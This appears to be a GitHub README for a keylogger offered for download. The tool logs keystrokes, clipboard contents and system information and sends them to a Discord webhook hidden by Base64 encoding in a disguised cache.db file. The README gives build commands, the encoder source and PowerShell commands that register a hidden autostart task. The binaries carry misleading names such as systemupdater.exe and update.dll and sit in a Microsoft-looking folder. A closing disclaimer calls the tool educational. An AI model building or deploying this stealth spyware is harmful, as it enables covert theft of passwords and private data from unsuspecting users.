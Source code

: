 # 🛡️ Keylogger – Installer-based Setup

A fully featured and installer-driven keylogger written in Python and C++.  
It captures keystrokes, clipboard changes, system information, and sends the data securely to a hidden Discord webhook.  
Includes a one-click installer, automatic webhook encoding, and stealth autostart via DLL and Task Scheduler.

---

## ✅ Features

- ⌨️ Logs all keystrokes with modifier support (e.g., `CTRL + C`)
- 📋 Detects clipboard changes and sends content in real time
- 💻 Collects system information (hostname, user, IPs, OS)
- 🔁 Sends data periodically via Discord webhook
- 🔒 Webhook hidden using Base64 encoding in a disguised config file
- 🧩 One-click setup via GUI installer
- 🎭 Stealth autostart using `update.dll` + Task Scheduler
- 🫥 Runs silently with no visible windows
- 🛠️ Compatible with both development and compiled environments

---

## 📦 Installer Structure (v1.0 Release)

| File / Folder                        | Description                                                                 |
| ----------------------------------- | --------------------------------------------------------------------------- |
| `installer.exe`                     | One-click installer GUI – encodes the webhook and sets up everything automatically            |
| `systemupdater.exe`                 | Keylogger binary (compiled from `systemupdater.py`)                         |
| `update.dll`                        | DLL that loads the keylogger at login using `rundll32.exe`                 |
| `cache.db`                          | Contains the encoded Discord webhook (Base64)                               |
| `README.txt`                        | Offline readme for users                                                    |
| `LICENSE.txt`                       | MIT License                                                                 |
| `Source_Code/installer.py`         | Python source for installer GUI                                             |
| `Source_Code/systemupdater.py`     | Main keylogger logic (keystrokes, clipboard, system info)                   |
| `Source_Code/Base64_webhook_encoder.py` | Optional CLI tool to encode webhook manually                         |
| `Source_Code/startloader.cpp`      | Source code for DLL that triggers the EXE                                   |
| `Source_Code/icon.ico`             | Optional icon used during EXE compilation                                               |

---

## ⚙️ Compilation Instructions

### 🧪 Keylogger Binary (systemupdater.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" systemupdater.py
```

### 🧪 Installer Binary (installer.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" installer.py
```

### 🧪 DLL (update.dll)

```bash
g++ -shared -o update.dll startloader.cpp -Wl,--add-stdcall-alias
```

> The exported function **must** be named `MyFunction` for compatibility with `rundll32.exe`.

---

## 🔐 Webhook Handling

To hide the Discord webhook URL, it is encoded via Base64 and saved to `cache.db`.  
The installer does this automatically, or you can use the manual tool:

### Manual Encoder (Base64_webhook_encoder.py)

```python
import base64
import os
import sys
import msvcrt

webhook = input("Enter your Discord webhook URL: ").strip()
if not webhook.startswith("http"):
    print("❌ Invalid webhook URL!")
    print("Press any key to exit...")
    msvcrt.getch()
    sys.exit(1)

encoded = base64.b64encode(webhook.encode()).decode()
base_dir = os.path.dirname(sys.executable if getattr(sys, 'frozen', False) else __file__)
full_path = os.path.join(base_dir, "cache.db")

try:
    with open(full_path, "w", encoding="utf-8") as f:
        f.write(encoded)
    print(f"✅ Webhook saved to: {full_path}")
except Exception as e:
    print(f"❌ Failed to save: {e}")

print("Done. Press any key to close...")
msvcrt.getch()
```

---

## 🚀 Autostart via Task Scheduler

The DLL is silently triggered at each user logon.

### ▶ Add Startup Task

```powershell
$Action = New-ScheduledTaskAction -Execute "rundll32.exe" -Argument '"C:\ProgramData\Microsoft\CacheSync\update.dll",MyFunction'
$Trigger = New-ScheduledTaskTrigger -AtLogOn
$Principal = New-ScheduledTaskPrincipal -GroupId "Users" -RunLevel Limited
Register-ScheduledTask -TaskName "SystemUpdater" -Action $Action -Trigger $Trigger -Principal $Principal
```

### ❌ Remove Startup Task

```powershell
Unregister-ScheduledTask -TaskName "SystemUpdater" -Confirm:$false
```

---

## 🧠 How the Installer Works

1. **Run `installer.exe`**
   - Prompts for webhook
   - Encodes to `cache.db`

2. **Installs binaries** to:  
   `C:\ProgramData\Microsoft\CacheSync\`

3. **Registers Task Scheduler autostart**
   - Uses `rundll32.exe` to execute `update.dll` on logon

---

## 📥 Download

The latest compiled release (including EXE, DLL, full source code) is available here:  
🔗 [Latest Release →](https://github.com/mrpanda-bamboo/keylogger/releases/latest)

---

## 📜 License

This project is licensed under the **MIT License**.  
See the [LICENSE](./LICENSE) file for full terms.

---

## 🚨 Disclaimer

> This software is intended for **educational, research, and ethical testing purposes only**.  
> **Do not** use this tool on systems you do not own or have explicit permission to monitor.  
> Misuse of this software can violate privacy laws and may be considered illegal in many countries.  
> The author takes **no responsibility** for misuse or damage caused.

